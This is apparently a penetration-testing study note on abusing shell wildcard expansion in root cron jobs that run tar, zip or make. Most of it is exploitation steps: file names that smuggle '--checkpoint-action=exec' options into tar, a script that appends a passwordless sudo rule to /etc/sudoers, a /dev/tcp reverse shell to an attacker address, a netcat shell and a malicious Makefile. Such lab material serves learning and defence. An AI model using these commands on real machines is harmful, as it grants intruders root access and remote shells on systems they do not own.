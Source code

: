```yaml
---
title: Linux Wildcard Abuse
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
```

# Linux Wildcard Abuse

 wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:

| **Character** | **Significance**                                                                                                                                      |
| ------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- |
| `*`           | An asterisk that can match any number of characters in a file name.                                                                                   |
| `?`           | Matches a single character.                                                                                                                           |
| `[ ]`         | Brackets enclose characters and can match any single one at the defined position.                                                                     |
| `~`           | A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory. |
| `-`           | A hyphen within brackets will denote a range of characters.                                                                                           |

We see this in a cronjob:

```shell-session
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

We can abuse the wildcard `*`.  The key to this attack is how the wildcard * works in Linux. When used in a command like:

```
tar -zcf /home/htb-student/backup.tar.gz *
```

The shell expands `*` **before** executing the command. It replaces `*` with all filenames in the directory. So if we create these files in the directory:

```shell-session
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

Then the directory will contain:

```
--checkpoint=1 --checkpoint-action=exec=sh root.sh file1.txt file2.txt
```

And the actual command that will run is:

```
tar -zcf /home/htb-student/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh root.sh file1.txt file2.txt`
```

This means `tar` receives `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` as **actual command-line arguments**. Because `tar` supports these flags, it executes `sh root.sh`, leading to privilege escalation.


##   Abusing `tar` Wildcards in Cron Jobs

A cron job runs `tar` on a directory that you can write to.

**🚀 Exploitation Steps:**

```bash
# Create a malicious script that grants sudo access
echo 'echo "htb-student ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
```

We could also create a malicious script that opens a reverse shell like this root.sh one:

```
#!/bin/bash
bash -i >&/dev/tcp/$IPAttacker/1234 0>&1
```

```
# Create wildcard files that get interpreted as arguments
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```


Wait for cron job execution, then escalate

```
sudo -l
sudo su
```


## **Abusing `zip` Wildcard Expansion**

A cron job runs:

```bash
zip -r backup.zip *
```

You can write to the directory.

 **🚀 Exploitation Steps:**
  
```bash
echo 'mkfifo /tmp/f; nc -lvp 4444 < /tmp/f | /bin/sh > /tmp/f 2>&1' > shell.sh
echo "" > "--unzip-command=sh shell.sh"
```

When `zip` runs, it executes the reverse shell.

##  **Exploiting `make` Wildcards**

A cron job runs:

```bash
make *
```

You can write to the directory.

**🚀 Exploitation Steps:**

```bash
echo 'all: ; /bin/bash' > Makefile
```

When `make` runs, it executes `/bin/bash`.
